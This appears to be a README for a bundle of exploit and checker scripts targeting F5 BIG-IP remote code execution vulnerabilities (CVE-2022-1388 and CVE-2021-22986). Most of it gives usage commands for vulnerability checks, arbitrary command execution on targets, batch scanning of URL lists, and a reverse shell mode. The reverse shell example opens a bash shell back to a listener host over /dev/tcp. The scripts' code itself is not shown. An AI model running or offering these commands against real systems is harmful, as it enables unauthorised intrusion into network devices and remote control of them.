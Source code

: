 # 20221-2021-F5-BIG-IP-IQ-RCE
I modified it so you can use CVE-2022-1388/CVE-2021-22986 and F5 BIG-IP RCE vuln checks and exploiters
the normal check.py and exp.py is 2022 but CVE_2021, newpoc, and f5.rest.jar are from the 2021 version

but all you gotta do is do python check.py to see all cmds

<strong>2021 Basic use</strong>

-python3 CVE_2021.py
-Vuln check: python3 CVE_2021_22986.py -v true -u https://192.168.174.164
-command execute: python3 CVE_2021.py -a true -u https://192.168.174.164 -c id
-python3 CVE_2021.py -a true -u https://192.168.174.164 -c whoami
-batch scan: python3 CVE_2021_22986.py -s true -f url.txt
-Reserve Shell: python3 CVE_2021_22986.py -r true -u https://192.168.174.164 -c "bash -i >&/dev/tcp/192.168.174.129/8888 0>&1"
-New POC: python3 newpoc.py https://192.168.174.164
-Validation mode：python CVE_2021.py -v true -u target_url 
-Attack mode：python CVE_2021.py -a true -u target_url -c command 
-Batch detection：python CVE_2021.py -s true -f file
-Bounce mode：python CVE_2021.py -r true -u target_url -c command 

<strong>2022 Basic use</strong>
-Vulnerability name: F5 BIG-IP iControl Rest API exposed Check
-Function: single detection, batch detection                                    
-Single detection：python exp.py -u url
-Batch detection：python exp.py -f url.txt
-Check: python check.py -f url.txt
